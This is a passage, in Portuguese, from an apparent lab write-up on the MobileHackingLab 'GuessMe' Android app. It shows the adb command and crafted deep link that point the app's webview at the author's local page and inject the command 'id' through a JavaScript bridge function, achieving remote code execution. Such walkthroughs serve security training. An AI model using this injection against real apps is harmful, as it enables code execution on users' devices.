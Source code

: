 <img src="/assets/img/MHL_guessme_4.png" width="600" height="600"/>
</p>
<br>
O payload utilizado: 

```sh
adb shell am start -a android.intent.category.BROWSABLE \
-n com.mobilehackinglab.guessme/.WebviewActivity \
-d "mhl://mobilehackinglab/?url=http://192.168.0.9/search?Time=\'id\'%26q=mobilehackinglab.com"
```
Uma vez que o aplicativo carregou minha página que executa javascript e passa o parâmetro **Time**
dentro da função getTime que faz parte da AndroidBridge que é nossa interface com o Javascript.
O RCE acontece!! No final bastando apenas adicionar o host "mobilehackinglab.com" para ter o deep link válido.


## Bônus

[Parte 2 continuação...](../../../dropdown/2024-09-11-GuessMe-2.html)
